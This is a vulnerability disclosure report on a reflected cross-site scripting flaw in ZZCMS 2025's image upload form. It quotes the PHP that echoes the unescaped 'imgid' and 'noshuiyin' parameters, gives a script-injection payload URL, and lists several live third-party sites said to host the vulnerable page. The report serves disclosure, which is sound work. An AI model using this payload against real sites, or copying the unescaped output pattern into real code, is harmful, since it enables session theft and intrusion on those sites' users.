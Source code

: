 # **Cross-Site Scripting Vulnerability in ZZCMS uploadimg_form.php**





## Vendor Information



**Official Website:** http://www.zzcms.net/

**Source Code Download:** http://www.zzcms.net/download/zzcms2025.zip

**Affected Version:** ZZCMS 2025



## Vulnerability Analysis

**Note: Exploiting this vulnerability requires authentication. A user can simply register a personal account to trigger the issue.**

### Source Code Analysis

The vulnerability is located in the form submission operation of `/up/uploadimg_form.php`.

```php+HTML
<div style="display:block;" id="A_con1">
<form action="uploadimg.php" method="post" enctype="multipart/form-data" style="padding:10px" >

<input type="file" name="g_fu_image[]" /><input type="submit" name="Submit" value="提交" />
<input name="noshuiyin" type="hidden" id="noshuiyin" value="<?php echo @$_GET['noshuiyin']?>" />
<input name="imgid" type="hidden" id="imgid" value="<?php echo @$_GET['imgid']?>" />
</form>
</div>
```

In the code, the values of the GET parameters `noshuiyin` and `imgid` are directly output into the `value` attribute of hidden form fields without any escaping or filtering.

### Request Construction

Either of the two parameters can be used to exploit the vulnerability.

```
http://demo.com/up/uploadimg_form.php?imgid="><script>alert('XSS')</script>&noshuiyin=foo

#or

http://demo.com/up/uploadimg_form.php?imgid="><script>alert('XSS')</script>&noshuiyin=foo
```



### Vulnerability Verification

![image-20250225204446195](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250225204446195.png)



### Website Reference

**Note:** Authentication is required to trigger the vulnerability; users can simply register a personal account for testing purposes.

```
http://demo.zzcms.net/up/uploadimg_form.php
https://www.88zsw.com/up/uploadimg_form.php
http://818yyzs.com/up/uploadimg_form.php
http://bjp.zzcms.net/up/uploadimg_form.php
http://9.zzcms.net/up/uploadimg_form.php
http://hzp.zzcms.net/up/uploadimg_form.php
```















